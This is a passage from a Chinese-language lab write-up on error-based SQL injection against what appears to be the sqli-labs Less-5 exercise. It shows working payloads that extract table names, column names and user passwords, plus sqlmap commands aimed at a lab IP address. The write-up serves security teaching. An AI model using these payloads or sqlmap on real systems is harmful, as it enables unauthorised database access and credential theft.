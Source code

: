 通过`limit`数值的改变爆破不同的数据表（这里本来想用`group_concat`一起显示，但是失败了）

```
?id=1' union select 1, count(*),concat((select concat(table_name) from information_schema.tables where table_schema=database() limit 1,1),'---', floor(rand(0)*2)) as a from information_schema.tables group by a%23
```

![image-20211207121954640](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020055185.png)

当超过数量后就不会有错误回显：

![image-20211207122105095](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020056820.png)



##### 爆破字段

通过修改`limit`爆破不同的字段

```
?id=1' union select 1, count(*),concat((select concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),'---', floor(rand(0)*2)) as a from information_schema.tables group by a%23
```

![image-20211207123632111](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020056778.png)



##### 爆破数据值

```
?id=-1' union select count(*),1, concat((select concat_ws(id,username,password) from users limit 1,1),'---',floor(rand(0)*2)) as a from information_schema.tables group by a%23
```

![image-20211207125028942](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020056287.png)

详细内容参考教程：

https://blog.csdn.net/weixin_43901998/article/details/105227678

https://blog.csdn.net/Mitchell_Donovan/article/details/115335855



#### 3、sqlmap

```cmd
python sqlmap.py -u "http://10.12.202.251:24914/Less-5/?id=1"
```

![image-20211207125320758](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020056127.png)

（比起实验一少了union query的类型）

接下来的步骤同实验一：

```cmd
python sqlmap.py -u "http://10.12.202.251:24914/Less-5/?id=1" --dbs
```

